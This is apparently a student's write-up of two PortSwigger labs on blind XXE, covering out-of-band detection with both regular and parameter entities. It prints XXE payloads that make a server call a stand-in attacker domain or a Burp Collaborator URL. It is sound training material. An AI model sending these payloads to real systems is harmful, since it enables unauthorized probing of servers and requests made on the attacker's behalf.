




## What is blind XXE?

Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

## Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

## Challenge

> This lab has a "Check stock" feature that parses XML input but does not display the result.
> You can detect the [blind XXE](https://portswigger.net/web-security/xxe/blind) vulnerability by triggering out-of-band interactions with an external domain.
> To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

--> For this lab we will use burp collaborator which you can use by going `burp -> burp collaborator client`

After that i intercepted check stock request and added this payload:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "<burp-collaborator-url>"> ]>
```

--> And change the value of `productId` and `stockId` to `&xxe;`

Final payload will look like this:



--> And then goto collaborator client and click `poll now` you will see a DNS lookup on your domain.



And we solved the lab!

## XML parameter entity

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful

## Challenge

> This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
> To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

--> This lab is similar to previous one but here we have to declare one XML parameter entity and then call it within the DTD So i made this payload and intercepted `check stock` request:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "<BURP-URL>"> %xxe; ]>
```

Final request will look like this:



And after clicking `poll now` i got one DNS lookup and we solved the lab!


